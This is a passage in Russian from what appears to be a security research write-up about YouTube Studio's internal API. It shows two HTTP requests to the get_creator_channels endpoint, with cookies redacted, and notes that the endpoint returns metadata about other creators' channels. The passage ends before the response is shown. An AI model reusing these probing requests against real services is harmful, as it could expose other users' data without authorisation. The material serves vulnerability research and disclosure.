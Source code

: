 Вооружившись этим знанием, я начал искать конечные точки API с секретными параметрами, которые могли бы позволить нам получить отладочную информацию.

Кажущаяся безопасной конечная точка
Если вы когда-нибудь просматривали запросы, отправленные YouTube Studio для загрузки вкладки «Заработок», то могли заметить следующий запрос:
‎

‎

POST /youtubei/v1/creator/get_creator_channels?alt=json HTTP/2
Host: studio.youtube.com
Content-Type: application/json
Cookie: <redacted>

{
  "context": {
    ...
  },
  "channelIds": [
    "UCeGCG8SYUIgFO13NyOe6reQ"
  ],
  "mask": {
    "channelId": true,
    "monetizationStatus": true,
    "monetizationDetails": {
      "all": true
    },
    ...
  }
}
Он используется для получения данных о нашем канале, которые отображаются на вкладке Earn. При этом с его помощью можно получить метаданные других каналов, хотя и с очень небольшим количеством масок:
‎
Запрос

POST /youtubei/v1/creator/get_creator_channels?alt=json HTTP/2
Host: studio.youtube.com
Content-Type: application/json
Cookie: <redacted>

{
  "context": {
    ...
  },
  "channelIds": [
    "UCdcUmdOxMrhRjKMw-BX19AA"
  ],
  "mask": {
    "channelId": true,
    "title": true,
    "thumbnailDetails": {
      "all": true
    },
    "metric": {
      "all": true
    },
    "timeCreatedSeconds": true,
    "isNameVerified": true,
    "channelHandle": true
  }
}
Ответ
